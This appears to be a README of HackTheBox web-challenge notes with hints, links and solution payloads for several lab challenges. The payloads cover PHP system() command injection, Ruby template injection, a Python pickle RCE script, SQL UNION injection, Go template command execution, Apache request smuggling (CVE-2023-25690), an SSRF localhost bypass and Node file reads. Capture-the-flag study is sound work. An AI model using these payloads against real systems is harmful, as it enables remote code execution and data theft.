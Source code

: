 **01 web_lovetok:**

 - Link: https://app.hackthebox.com/challenges/lovetok
 - Hint/Solution "?format=${system(@_GET[cmd]}&cmd=ls ../"
 - Explanation: 
	1. http://178.62.11.21:30505/: This is the base URL.
    2. ?format=$_{system($_GET[1])}: This part of the URL suggests an attempt to inject code. 
   3. It looks like it's trying to use the system function in PHP to execute a command specified in the $_GET[1] parameter.
   4. &1=ls+/: The &1=ls+/ part is likely an attempt to pass the command ls+/ as the value for the $_GET[1] parameter. 
   5. This command typically lists the files and directories in a Unix/Linux system.

**02 Toxic:** cookie to base64
 - Link: https://app.hackthebox.com/challenges/toxic
 -  Hint: Cache is Encoded With Base64 and LFI to RCE via Header Injection.
 - Solution: https://dhanush-ramuk.medium.com/toxic-hackthebox-challenge-walkthrough-easy-5629d066c127
     
**03 Neonify:**
    

 - Link: https://app.hackthebox.com/challenges/neonify
 - Hint: Encode With url Encoding.
	 - <%= File.open('flag.txt').read %> # Read file
 -  Solution: 
	 - ```curl 159.65.20.166:32127 \ -s -X POST -d 'neon=a %3C%25%3D%20File.open%28%27flag.txt%27%29.read%20%25%3E' | grep -Eo 'HTB{.*}'```
 -  Explanation: https://drt.sh/posts/htb-neonify/

             
   
    
**05 COP:**
    

 - Link: https://app.hackthebox.com/challenges/cop
 - Hint: No Flag value in DB, use script
```
import pickle
import base64
import os

payload = 'cp flag.txt application/static/.'

class RCE:
    def __reduce__(self):
        return os.system, (payload,)

if __name__ == '__main__':
    print(base64.urlsafe_b64encode(pickle.dumps(RCE())).decode('ascii'))
```
 - Steps:
	 - run script on local copy the <value> output and 
		add to the url like 
		target/1' UNION SELECT '<VALUE>
 - Solution: https://drt.sh/posts/htb-cop/

**06 Render Quest:**
    

 - Link: https://app.hackthebox.com/challenges/renderquest
 - Hint: Prepare A malicious Like that can have Command in it
	 1. go https://webhook.site/    	
	 2. Preaper Request with Respond Body of {{.FetchServerInfo "ls -la"}}
	 3. Modify it as you go
 - Solution: https://medium.com/@tanish.saxena26/hackthebox-renderquest-cf6c493d7b83

**07 ApacheBlaze:**
 - Link: https://app.hackthebox.com/challenges/ApacheBlaze
 - Hint: CVE-2023–25690 (https://github.com/dhmosfunk/CVE-2023-25690-POC/tree/main#internal-http-request-smuggling-via-header-injection)
```
GET /api/games/click_topia HTTP/1.1
Host: dev.apacheblaze.local


GET / HTTP/1.1
Host: localhost:1337

-----------------------------------
Reminder for encoding : 

\r\n     ->  %0d%0a
\r\n\r   ->  %0d%0a%0d
```
 - 	After Url Encoding
```
   GET
   /api/games/click_topia%20HTTP/1.1%0d%0aHost:%20dev.apacheblaze.local%0d%0a%0d%0aGET%20/ HTTP/1.1
	Host: localhost:1337
   ```
- Solution: https://medium.com/@reinhardt.pwn/hackthebox-challenge-write-up-apacheblaze-a32643f19c45

**07 ProxyAsAService:**
- Link: https://app.hackthebox.com/challenges/proxyasaservice
- Hint: Bypass Local Host IP. Flag Stored in debug/environment
- Solution:
   		```
	 	http://159.65.20.166:32723/?url=@0.0.0.0:1337/debug/environment
		```
- Explanation: https://medium.com/@reinhardt.pwn/hackthebox-challenge-write-up-proxyasservice-ed593e9f179b

**08 JScalc:**
- Link: https://app.hackthebox.com/challenges/jscalc
- Hint: Read Function In JS.
- Solution:
  	```
   {
   	"formula":"require('fs').readFileSync('/flag.txt').toString();"
   }
   	```
- Explanation: https://medium.com/@tanish.saxena26/hackthebox-jscalc-95c0435c849d
